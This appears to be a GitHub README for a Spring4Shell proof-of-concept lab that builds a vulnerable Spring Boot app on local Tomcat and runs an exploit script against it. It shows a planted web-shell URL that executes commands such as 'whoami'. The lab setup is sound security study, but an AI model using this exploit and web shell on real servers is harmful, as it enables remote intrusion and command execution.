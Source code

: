 # Spring4Shell POC

Description of the vulnerability: https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html

Construction of the POC: https://github.com/BobTheShoplifter/Spring4Shell-POC

## Steps to Build/Run

Tested with JDK 11.0.14, Spring Boot 2.6.5, and Apache Tomcat 9.0.60

- Run `mvn clean package` to build the application
- Rename `demo-0.0.1-SNAPSHOT.war` to `spring-poc.war` and copy this .war file to Tomcat's webapps directory
- Run `python exp.py --url http://localhost:8080/spring-poc/greeting`
  - If successful, the message `漏洞存在，shell地址为:http://localhost:8080/spring-poc/tomcatwar.jsp?pwd=j&cmd=whoami` will be logged.
  - You should now see the file `tomcatwar.jsp` written to Tomcat's webapps/spring-poc directory. This directory can be changed by modifying `exp.py`. 
    - ![Log message](images/01-log-message.png)
  - Go to the url to see the result of the shell command
    - ![Running the payload](images/02-running-the-payload.png)